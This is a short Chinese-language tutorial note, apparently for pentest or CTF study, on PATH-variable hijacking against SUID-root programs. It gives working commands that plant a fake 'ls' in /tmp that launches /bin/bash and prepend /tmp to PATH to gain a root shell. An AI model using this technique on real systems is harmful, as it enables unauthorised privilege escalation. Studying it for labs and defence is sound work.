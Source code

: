 # 利用PATH漏洞
## PATH概述
+ path是一种环境变量，用于指定保存可执行程序的目录
+ 当用户在终端中运行任何命令时，它会借助 PATH 变量搜索可执行文件来响应用户执行的命令
+ 查看用户相关的路径：`echo $PATH`

## 漏洞利用：
+ 如果有root权限的SUID文件调用shell来运行可执行文件时
+ 我们可以将 PATH 变量重写到我们选择的位置

## 例
+ 现在有文件script，运行文件会执行ls
+ 在/tmp中创造可执行文件ls
	+ `echo “[我们想要运行的任何命令]” > [我们正在模仿的可执行文件的名称]`
		+ `echo "/bin/bash" > ls`
	+ 将文件变成可执行的
		+ `chmod +x ls`
+ 更改PATH变量
	+ `export PATH=/tmp:$PATH`
	+ 注意：这将导致每次使用ls时都会打开一个bash
		+ 在完成前要使用ls，在/bin/ls中
		+ 完成后，`export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH`恢复默认


